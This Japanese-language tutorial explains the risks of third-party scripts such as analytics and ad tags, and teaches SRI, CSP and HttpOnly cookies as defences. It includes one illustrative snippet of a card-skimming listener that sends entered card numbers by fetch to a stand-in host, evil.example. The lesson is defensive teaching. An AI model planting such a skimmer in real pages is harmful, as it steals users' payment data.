

# サードパーティスクリプトの信頼範囲 — 広告タグは何にでも触れる

## 今日のゴール

- 外部から読み込んだスクリプトが自分のコードと同じ権限で動くことを知る
- 提供元の改ざんが自分のサイトの事故に直結することを知る
- SRI と HttpOnly Cookie という対策の語彙を持つ

## head に貼る 1 行のタグ

アクセス解析や広告を導入するとき、サービスの管理画面にはたいていこう書いてあります。「このタグをページの head に貼ってください」。

```html
<script src="https://analytics.example.com/tag.js" async></script>
```

この 1 行を足すだけで、ページの閲覧数が集計され、広告が表示されるようになります。「解析タグを追加して」と AI に頼めば数十秒で終わる、ありふれた作業です。

ただしこの 1 行は、機能を有効にするスイッチではありません。**他社のサーバーに置いてある JavaScript を、自分のページの中で実行する**という指示です。

> **サードパーティスクリプト** = 第三者（他社）が配信し、自分のページに読み込んで実行するスクリプト

今日の話は、この「他社のコードを自分のページで動かす」ことが何を意味するかです。

## 外部スクリプト用の隔離領域はない

ブラウザは、`<script src="...">` で読み込んだコードを、読み込み元がどこのサーバーであっても同じように扱います。

- 自分で書いたスクリプトも、他社から読み込んだタグも、**同じ DOM、同じグローバルスコープ**で動く
- 「外部のスクリプトだけ別の部屋で動かす」という仕組みはない

つまり外部スクリプトは、自分が書いた JavaScript にできることが全部できます。

| できること | 具体的には |
|---|---|
| DOM の読み書き | ページ上のあらゆる要素の内容を読める・書き換えられる |
| Cookie の読み取り | `document.cookie` で HttpOnly でない Cookie を読める |
| フォーム入力の監視 | `input` イベントを仕込めば入力内容を横取りできる |
| 他のスクリプトの上書き | グローバルの関数や変数を別物に差し替えられる |

たとえば、悪意のあるコードがタグに紛れ込むと、こんなことができてしまいます。

```js
// 改ざんされた tag.js に紛れ込むコードの例
document.addEventListener("input", (event) => {
  if (event.target.name === "cardNumber") {
    fetch("https://evil.example/steal?number=" + event.target.value);
  }
});
```

ページ全体の `input` イベントを監視し、カード番号の入力欄に文字が入るたびに外部へ送信しています。画面には何の変化もないので、利用者にもサイト運営者にも気づく手がかりがほとんどありません。

## XSS との違い

「他人のコードが自分のサイトで動く」と聞くと、XSS を思い浮かべるかもしれません。今日の話はそれとは別物です。

> **XSS** = コメント欄などに書かれた**ユーザーの入力**が、エスケープ漏れによって HTML やコードとして解釈されてしまう攻撃

| 観点 | XSS | サードパーティスクリプトの改ざん |
|---|---|---|
| 動くコードの出どころ | ユーザーの入力 | タグの提供元が配信するファイル |
| 侵入の経路 | エスケープ漏れなどサイト側の穴 | 自分で貼った script タグ |
| サイト側のコード | 直せば防げる | 1 行も間違っていなくても起きる |

- **XSS**: 「入れるつもりのなかったコード」が紛れ込む事故。自分のコードを直せば防げる
- **サードパーティスクリプト**: **自分から招き入れたコード**なので、エスケープでは防げない。信頼するかどうかを決めた時点で、その後の中身の変化ごと引き受けている

## 提供元が乗っ取られたとき

タグを貼った時点では、提供元は信頼できる会社だったとします。それでも安心はできません。

- 提供元の配信サーバーが攻撃され、ファイルが書き換えられる
- 提供元の会社が買収され、新しい持ち主がコードを差し替える
- タグがさらに別のタグを読み込んでいて、その先が改ざんされる

どの場合も、**サイト運営者は何も変えていないのに**、次にページが開かれた瞬間から改ざんされたコードが動き始めます。

> script タグは「今この瞬間のファイル」ではなく「**その URL が今後返すものすべて**」を信頼する行為

実在のサービスで繰り返し起きてきたのが、決済ページを狙うスキミング型の攻撃です。決済ページに埋め込まれた広告や解析のタグが改ざんされ、フォームに入力されたクレジットカード番号がこっそり外部へ送信されます。



タグは連鎖するのも厄介な点です。

- 広告タグが入札のために別のタグを読み込み、それがまた別のスクリプトを読み込む
- **入れるスクリプトが 1 つ増えるたびに、信頼しなければならない相手の連鎖が伸びていく**

## 対策の考え方

外部スクリプトを一切使わないのは現実的ではありません。前提として受け入れたうえで、被害を減らす手を重ねます。

### 提供元を選び数を絞る

最初の対策は技術ではなく判断です。

- **提供元を選ぶ**: 実績のある提供元だけにする
- **数を絞る**: 入れるタグは必要最小限にする
- **置き場所を選ぶ**: 決済ページや個人情報の入力ページには、動作に不要なタグを置かないのが定石

### Subresource Integrity

**SRI**（Subresource Integrity）は、読み込むファイルの中身をブラウザに検証させる Web 標準です。script タグに `integrity` 属性で「期待するファイルのハッシュ値」を書いておきます。

```html
<script
  src="https://cdn.example.com/chart-library@5.1.0.js"
  integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
  crossorigin="anonymous"
></script>
```

- **ハッシュ値**: ファイルの中身から計算される指紋のような値。中身が 1 バイトでも変われば別の値になる
- **ブラウザの動き**: ダウンロードしたファイルのハッシュを計算し、`integrity` の値と一致しなければ**実行を拒否**する
- **結果**: 提供元でファイルが改ざんされても、改ざん後のコードは動かない

ハッシュには sha256、sha384、sha512 が使えます。別ドメインのファイルを検証するには `crossorigin` 属性もあわせて必要です。

ただし SRI には向き不向きがあります。ハッシュは特定の中身に対する指紋だからです。

| スクリプト | SRI との相性 |
|---|---|
| バージョンを固定して配信されるライブラリ | 向いている |
| 提供元が中身を随時更新する解析・広告タグ | 使えない |

### 読み込み元の制限

**CSP**（Content-Security-Policy）という HTTP レスポンスヘッダーを使うと、「許可した提供元以外のスクリプトは読み込まない」とブラウザに宣言できます。

```
Content-Security-Policy: script-src 'self' https://analytics.example.com
```

こう宣言しておけば、改ざんされたタグが見知らぬサーバーから追加のスクリプトを読み込もうとしても、ブラウザが拒否します。

### HttpOnly Cookie

サーバーが Cookie を発行するときに `HttpOnly` 属性を付けると、その Cookie は JavaScript の `document.cookie` から読めなくなります。

```
Set-Cookie: session=abc123; HttpOnly; Secure
```

悪意のあるスクリプトがページに紛れ込んでも、HttpOnly のセッション Cookie は盗めません。改ざんを完全には防げない前提で、盗まれて一番痛いものを金庫に入れておく発想です。

> **多層防御** = 1 つの対策で全部を守るのではなく、破られたときの被害を次の層で小さくする重ね方

## 指示に使える語彙

「解析タグを埋め込んで」と AI に頼むとき、今日の話はそのまま指示と確認の語彙になります。

- このタグの提供元は信頼できるか、決済ページにまで入れる必要はあるか
- 中身が固定のライブラリなら、SRI は付けられるか
- セッション Cookie は HttpOnly になっているか

タグを 1 行貼る作業自体は AI に任せて構いません。**何を信頼することになるのか**を判断するのが人の仕事です。

## まとめ

- 外部スクリプトは自分のコードと同じ DOM とグローバルスコープで動き、何にでも触れる
- script タグは「その URL が今後返すものすべて」への信頼であり、提供元の改ざんは自分のサイトの事故になる
- 対策は提供元を絞る・SRI・CSP・HttpOnly Cookie の重ね掛け
